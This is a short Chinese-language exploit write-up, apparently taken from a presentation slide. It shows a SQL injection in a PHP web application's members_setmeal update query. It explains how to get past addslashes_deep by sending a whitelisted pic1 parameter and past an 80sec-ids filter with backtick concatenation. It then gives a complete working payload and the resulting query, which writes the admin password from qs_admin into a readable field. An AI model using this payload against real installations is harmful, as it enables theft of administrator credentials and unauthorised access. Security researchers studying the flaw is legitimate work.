

分析一下，我们需要构造的sql语句如下
$sql="update ".table('members_setmeal')." set `".$action."`=`".$action."`-1  WHERE uid=".intval($uid)."  AND  effective=1 LIMIT 1";
$action 可控，我们为了查询数据出来，我的想法很简单，直接插入一个 select 查询，我们然后直接找到返回结果的地方查看数据就可以了.
有子查询 就不得不绕过 第一个addslashes_deep() 函数，要不然子查询语句过不去，仔细看看第二个条件，如果有 pic1 参数就可以直接不进入第三个过滤了，我们可以传入 pic1 参数，利用白名单绕过
最后 入库前 还有个 80sec-ids 只是添加了 @ “”  关键字而已。我们照样可以利用 ``.``.xx 绕过即可
所以 综合起来 绕过语句为 pic1=1&pro_name=stick_num='`.``.setmeal_name=(select+pwd+from+qs_admin) %23‘

update qs_members_setmeal set `stick_num='`.``.setmeal_name=(select pwd from qs_admin) #'`=`stick_num='`.``.setmeal_name=(select pwd from qs_admin) #'`-1  WHERE uid=1  AND  effective=1 LIMIT 1